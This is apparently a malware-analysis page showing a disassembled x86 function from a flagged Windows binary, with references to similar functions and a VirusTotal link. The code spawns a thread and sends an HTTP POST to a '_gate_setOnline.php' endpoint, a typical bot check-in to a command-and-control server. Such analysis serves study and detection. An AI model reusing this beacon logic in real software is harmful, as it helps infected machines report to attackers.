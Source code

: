 call dword[sym.imp.KERNEL32.dll_CreateThread]
sub esp,0x1c
mov dword[ebp-0x488],esp
mov dword[ebp-0x480],esp
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x488],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.POST
mov byte[ecx],bl
call fcn.00401caf
sub esp,0x1c
mov byte[ebp-4],0x5a
mov eax,esp
mov dword[ebp-0x494],esp
call fcn.00402915
lea ecx,[ebp-0x2d8]
call fcn.0040a2a1
mov edi,eax
lea esi,[ebp-0x2bc]
mov byte[ebp-4],0x5b
call fcn.0040933e
push eax
lea eax,[ebp-0x2f4]
push 0x428a00
push eax
mov byte[ebp-4],0x5c
call fcn.004029ac
add esp,0xc
push 0x429288
push eax
lea eax,[ebp-0x268]
push eax
mov byte[ebp-4],0x5d
call fcn.004029e3
add esp,0xc
mov ecx,eax
sub esp,0x1c
mov eax,edi
mov byte[ebp-4],0x5e
mov edi,esp
mov dword[ebp-0x494],esp
call fcn.00402a1a
sub esp,0x1c
mov ecx,esp
mov byte[ebp-4],0x5f
mov dword[ebp-0x498],esp
push 0xf
pop esi
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str._gate_setOnline.php
mov byte[ecx],bl
call fcn.00401caf
sub esp,0x1c
mov eax,esp
mov dword[ebp-0x48c],esp
push eax
mov byte[ebp-4],0x60
call fcn.0040318d
mov ecx,dword[ebp-0x480]
mov byte[ebp-4],0x64
call fcn.00401626

[similar_1_ref]: /report/fcn.0041e847@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_2_ref]: /report/fcn.0040becc@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_4_ref]: /report/fcn.004183a4@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.00406b6f@69b3c79878674ea715338a112bb5caa6
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6
